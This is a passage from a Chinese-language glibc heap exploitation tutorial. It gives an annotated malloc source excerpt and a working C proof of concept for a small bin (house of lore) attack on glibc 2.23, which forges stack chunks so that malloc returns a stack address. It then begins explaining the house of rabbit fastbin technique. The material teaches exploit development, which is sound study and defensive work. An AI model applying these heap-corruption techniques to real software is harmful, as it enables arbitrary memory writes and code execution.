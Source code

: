 ```c
                if (av != &main_arena) // 假如不是在主线程(main_arena)，添加上不是在main_arena的标记
                    victim->size |= NON_MAIN_ARENA;
                check_malloced_chunk(av, victim, nb);
                void *p = chunk2mem(victim); // 获得指向可用区域的指针
                alloc_perturb(p, bytes);
                return p; // 返回该指针
            }
        }
    }
```

笔者在`glibc 2.23`下，使用了以下代码成功完成攻击：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    long fake_chunk[0x110]; // 在栈上伪造一个fake chunk，最终申请到这里表示攻击成功
    long fake_chunk2[0x110]; // 需要fake_chunk2，作用是最后从small bin中取出fake_chunk的时候，逃避检查
    printf("the addr of fake chunk is %p\n", fake_chunk);
    long* a = malloc(0x100); // 申请一个属于small bin的chunk
    malloc(0x20); // 防止被top chunk合并
    free(a); // chunk a会被置入 unsorted bin
    malloc(0x120); // 申请一个大chunk，这会让chunk a置入small bin 

    /* 攻击 */
    a[1] = &fake_chunk[0]; // chunk a的bk指针要指向fake_chunk
    fake_chunk[2] = a - 2; // fake_chunk的fd指针要指向chunk a 
    malloc(0x100); // 申请一个chunk a大小的chunk

    // 接下来我们希望能够取出fake_chunk，但是这个时候又会经历一次small bin的检查
    // 因此我们借助fake_chunk2来逃避检查
    // 只需要将fake_chunk的bk指向fake_chunk2，fake_chunk2的fd指向fake_chunk即可。
    fake_chunk[3] = &fake_chunk2[0]; // fake_chunk的bk指向fake_chunk2, fake_chunk2就是bck
    fake_chunk2[2] = &fake_chunk[0]; // fake_chunk2的fd必须指向fake_chunk
    long* b = malloc(0x100); // 再次申请一个
    printf("the addr of chunk b is %p.\n", b - 2); // 神奇地发现就是栈上的地址
    return 0;
}
```

### house of rabbit

`house of rabbit`是一种`fastbin`的攻击方法，可以在没有`leak`的情况下通过获得一个`overlap chunk`或者是一个`fake chunk`。这是利用了`malloc_consolidate`没有进行很好的安全校验来进行攻击的。

我们知道`fastbin attack`需要保证取出的`chunksize`和`fastbin`的`size`一样，在很多情况下需要寻找`0x7f`或者是打`unsortedbin attack`来找`0x7f`。而`house of rabbit`同样针对`fastbin`，它只需要能够触发`malloc_consolidate`（`malloc`一个很大的值就可以触发），然后下列两者条件中的一个即可：

- 可以控制`fastbin`中`chunk`的`fd`指针
- 可以控制`fastbin`中`chunk`的`size`
